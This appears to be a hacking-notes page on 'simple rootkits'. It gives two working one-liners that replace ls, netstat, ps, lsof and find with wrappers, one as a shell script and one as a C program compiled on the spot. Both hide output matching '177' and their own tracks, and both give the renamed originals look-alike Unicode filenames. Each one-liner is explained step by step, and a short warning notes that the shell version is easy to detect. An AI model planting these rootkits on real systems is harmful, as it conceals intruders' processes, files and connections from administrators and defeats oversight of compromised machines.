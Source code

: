 # Simple Rootkits

## <mark style="color:red;">Shell Rootkit</mark>

{% hint style="danger" %}
#### This rootkit is pretty easy to detect and analyze because it can easily be seen with the file command that programs like `ps` or `ls` have changed the type from an ELF binary to a shell script. After discovering the rootkit, it is also pretty easy to analyze the functionality of it and then selectively find the backdoors hidden by the rootkit.
{% endhint %}

The shell script version is still useful if the system doesn't contain a c compiler:

```
which ls netstat ps lsof find|perl -pe'$s="\x{455}";$n="\x{578}";chop;$o=$_;s/([ltp])s/\1$s/||s/fin/fi$n/;rename$o,$_;open F,"&gt;$o";print F"#!/bin/sh\n$_ \$*|grep -vE \"[$s-$n]|grep|177\"";chmod 493,$o'
```

The which command lists the absolute path of the programs to maniuplate in the rootkit. These absolute paths are passed to a perl one-liner. The perl program starts with defining the variables $s and $n, which are initialized with the Unicode characters u+455 and u+578. These characters look like the ascii characters "s" and "n". Then it copies the filename of the original filename to $o and changes the filename in $\_ by replacing the "s" in ls, netstat, ps and lsof with u+455 and the "n" in find with u+578. The result of these replacements is a new filename which looks exactly like the original filename. The original program is then renamed to the new name and then replaced with a shell script, which calls the renamed original program ($\_) and pipes the output to grep. The grep command filters lines containing one of the following:

* Unicode characters used by the rootkit (\[$s-$n]) => Makes the rootkit self-hiding
* The string "grep" => Don't show that grep is running in the output of ps
* The string "177" => This is used for the stuff which should be hidden by the rootkit.

## <mark style="color:red;">The C Version</mark>

In order to make finding and analyzing the rootkit more difficult, it is also possible to compile small binaries instead of the shell script:

```
which ls netstat ps lsof find|perl -pe'$s="\x{455}";$n="\x{578}";chop;$o=$_;s/([ltp])s/\1$s/||s/fin/fi$n/;rename$o,$_;open F,"|gcc -xc - -o$o";print F qq{int main(int a,char**b){char*c[999999]={"sh","-c","$_ \$*|grep -vE \\"177|\$\$|[$s-$n]|grep\\""};memcpy(c+3,b,8*a);execv("/bin/sh",c);}}'
```

The beginning is pretty much like the first variant of the rootkit. However, insted of directly writing the wrapper program, the perl script opens a pipe to gcc and writes a small C program to this pipe. The following shows a more readable version of the C program:

```
int main(int a,char**b){
  char*c[999999]={"sh","-c","original_program \$*|grep -vE \\"177|\$\$|[$s-$n]|grep\\""};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
```

The first line initializes the argument array for execv with "sh -c" and the same shell command as the first variant of the rootkit while the second line copies all remaining arguments from the argv array passed to the wrapper binary to the end of the argument array for execv.
